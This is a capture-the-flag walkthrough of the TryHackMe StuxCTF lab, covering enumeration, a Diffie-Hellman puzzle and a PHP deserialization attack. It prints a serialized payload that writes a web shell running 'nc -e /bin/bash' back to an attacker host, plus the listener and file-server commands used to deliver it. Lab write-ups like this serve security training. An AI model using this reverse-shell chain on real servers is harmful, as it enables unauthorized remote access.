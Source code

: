 # [StuxCTF](https://tryhackme.com/room/stuxctf)

## Crypto, serealization, priv scalation and more ...

# StuxCTF

## Read user.txt and root.txt

### What is the hidden directory

1. Start by nmap, and gobuster enumeration

```Bash
nmap -p- <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports

![SCREEN01](https://github.com/user-attachments/assets/2c93ad6d-5704-4759-9c83-a016f3daf596)

```Bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt -x html,php,js,txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing
- `-x`: Append extensions to each word in the wordlist when searching

![SCREEN02](https://github.com/user-attachments/assets/a4ffb12e-41b3-4bed-9a2c-ec2e24b002fb)

2. We don't have access to the `/.php` and `/.html`. `robots.txt` doesn't have anything interesting, but we have another clue in source of `/index.html`

![SCREEN03](https://github.com/user-attachments/assets/9563170a-6e12-4fb8-82ab-4566ff3717e3)

3. Let's solve this Diffie-Hellman problem in Python to find the secret directory

```Python
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g = 7
a = 330
b = 450
gc = 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

gca = (gc**a) % p
gcab = (gca**b) % p

print str(gcab)[:128]
```

![SCREEN04](https://github.com/user-attachments/assets/94a52092-01f8-4bab-899d-bf139101cc4c)

### user.txt

### root.txt

1. In source of the secret directory we get another hint

![SCREEN05](https://github.com/user-attachments/assets/3de88eca-bae5-4918-a508-85f3b9824f84)

2. When adding `/?file= ` at the end of the secret directory we are getting `File no Exist!` message

![SCREEN06](https://github.com/user-attachments/assets/d7ce6199-8d03-4bc2-a7d5-efdfd72b8567)

3. I have found out that only `index.php` returns something useful

![SCREEN07](https://github.com/user-attachments/assets/c8159ff5-e8d9-491e-a783-b3e0356dd4f2)

4. Let's put it in the [CyberChief](<https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')From_Base64('A-Za-z0-9%2B/%3D',true,false)>) and select `From Hex` -> `Reverse` -> `From Base64`. This is our encrypted `index.php`

5. Prepare reverse shell in php and cast it to the .txt file

```php
<?php
class file
{
 public $file = 'shell.php';
 public $data = '<?php shell_exec("nc -e /bin/bash <IP> 4444"); ?>';
}

echo (serialize(new file));

?>
```

```Bash
php shell.php > shell.txt

```

6. Start python server and netcat listener

```Bash
python -m SimpleHTTPServer 9000
```

```Bash
nc -lvnp 4444
```

7. Upload our txt file using `/?file=http://<IP>:9000/shell.txt` and go to the `/<SECRET_DIRECTORY>/shell.php` endpoint. When we get a connection we can get all the flags

```Bash
whoami
sudo -l
cat /home/grecia/user.txt
sudo cat /root/root.txt
```

![SCREEN08](https://github.com/user-attachments/assets/5b9e5bcd-a10d-4e56-8c60-e347aa53bfa6)
